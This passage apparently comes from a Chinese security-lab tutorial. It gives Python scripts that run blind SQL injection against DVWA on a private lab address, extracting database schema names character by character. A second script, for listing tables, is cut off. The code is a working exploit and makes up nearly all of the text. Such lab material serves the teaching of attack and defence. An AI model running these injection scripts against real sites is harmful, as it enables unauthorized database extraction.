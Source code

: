``````
"""
import urllib.request

header={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
    ,'Cookie':'PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low'}
payload="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
urlhead="http://192.168.123.20/vulnerabilities/sqli_blind/?id=1"
end="&Submit=Submit#"
#1%27+and+mid%28database%28%29%2C1%2C1%29%3D%27d%27%23
if __name__ == '__main__':
    a=""
    c = 0
    for k in range(0,20):
        a+="\r\n"+str(k)+":"
        if c==2:
            print("结束了")
            exit()
        for i in range(1,20):
            for j in payload:
                #url="%27+and+mid%28database%28%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                url="%27+and+mid%28%28select+schema_name+from+information_schema.schemata+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #' and mid((select schema_name from information_schema.schemata limit 0,1),1,1)='i'#
                try:
                    rp = urllib.request.Request(urlhead + url + end, headers=header)
                    respon = urllib.request.urlopen(rp)
                    html = respon.read().decode('utf-8')
                    if "User ID exists in the database." in html:
                        a+=j
                        print(a)
                        c = 0
                        break
                except:
                    continue
        c += 1
```

![1559652375713](assets/1559652375713.png)

#### 6.2.1.3 查询数据库的全部表

```python
import urllib.request

header={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
    ,'Cookie':'PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low'}
payload="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
urlhead="http://192.168.123.20/vulnerabilities/sqli_blind/?id=1"
end="&Submit=Submit#"
#1%27+and+mid%28database%28%29%2C1%2C1%29%3D%27d%27%23
if __name__ == '__main__':
    a=""
    c = 0
    for k in range(0,20):
        a+="\r\n"+str(k)+":"
        if c==2:
            print("结束了")
            exit()
        for i in range(1,20):
            for j in payload:
``````